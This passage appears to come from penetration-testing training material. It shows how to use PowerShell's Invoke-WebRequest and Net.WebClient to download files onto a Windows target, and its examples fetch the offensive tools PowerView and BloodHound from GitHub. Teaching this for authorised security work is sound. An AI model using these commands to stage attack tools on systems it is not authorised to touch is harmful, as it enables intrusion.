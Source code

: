 ##### Invoke-WebRequest

We can also use Invoke-WebRequest to download files from web servers on the local network or a network reachable from the Windows target.

```powershell-session
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```

##### Net.WebClient

```powershell-session
(New-Object Net.WebClient).DownloadFile("https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")
```
